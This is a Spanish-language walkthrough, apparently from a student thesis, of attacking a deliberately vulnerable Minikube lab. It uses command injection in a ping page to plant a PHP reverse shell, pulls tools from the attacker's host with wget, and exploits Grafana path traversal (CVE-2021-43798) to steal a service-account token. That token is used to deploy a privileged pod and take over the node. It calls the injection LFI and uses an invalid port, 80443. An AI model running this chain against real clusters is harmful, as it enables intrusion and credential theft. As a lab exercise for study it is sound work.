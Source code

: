 Tras deplegar el laboratorio, ejecutamos este comando para que minikube nos lance un url donde hay una web básica para hacer ping a distintos dominios. 
```bash
minikube service --all
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/web_lfi.png)

Dicha página es vulnerable a LFI:

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png)

Por ello intentaremos transformar el LFI a RCE a través de una reverse shell con PHP, modificando la IP y el puerto donde vamos a escuchar con netcat con nuestra máquina. Nuestro objetivo es conseguir escribir un archivo dentro del sistema al cual accediendo se lanza una shell en nuestra máquina que está escuchando. Más información del proceso en [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Pasos:
1. Cambiamos la IP y el puerto y basemos el archivo php-revshell.php a base64.
```bash
base64 php-revshell.php
```
1. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
```bash
google.com;echo "<php-revshell in base64>" | base64 -d > shell.php
```
1. Verificamos que se ha subido el archivo shell.php:
```bash
google.com;ls -l
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/googlecom_ls.png)
1. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443:
``` bash
nc -lvp 80443
```
2. Una vez escuchando en el puerto, ejecutamos el comando:
```bash
curl http://<ip-web>:<puerto-web>/shell.php
```
Conseguimos entrar en el pod donde se está ejecutando el servicio web.
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/revshell.png)

Una vez dentro hacemos un reconocimiento en el pod:
1. Verificamos si podemos crear otros pods, para ello pasamos un binario de kubectl desde nuestra máquina creando un servidor web con python (recomendable copiar el bianrio en el archivo /tmp y ejecutar el comando ahí):
```bash
python3 -m http.server
```
Descargamos el binario y damos permisos de ejecución:
```bash
wget 192.168.1.131:8000/kubectl
chmod +x kubectl
```

Verificamos si es posible la creación de pods:
```bash
./kubectl auth can-i create pods
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/no_can-i%20create%20pods.png)
1. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo.
```shell
env
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/env.png)

Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.
```shell
apk add curl
curl http://10.103.238.75:3000/login | grep version
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/grafana_version.png)
Vemos que la versión de Grafana es la "8.3.0-beta2". Buscando en internet vemos que es vulnerable a LFI, es decir podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581).
Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token.
``` bash
wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
export token=$(cat token)
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/token_env.png)

Comprobamos si el posible crear pods con el token de Grafana:
``` bash
./kubectl auth can-i create pods --token=$token
```
![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/yes_can-i.png)
Como es posible crear pods, podemos crear un [badpods](https://github.com/BishopFox/badPods) para escalar privilegios al nodo de Minikube.  Este es el YAML que utilizaremos.

Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:
```bash
wget 192.168.1.131:8000/bad-pod.yaml
./kubectl apply -f bad-pod.yaml --token=$token
```

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/create%20bad-pod.png)

![https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png](https://raw.githubusercontent.com/Alfesito/TFG-kubevuln/main/images/final_node.png)

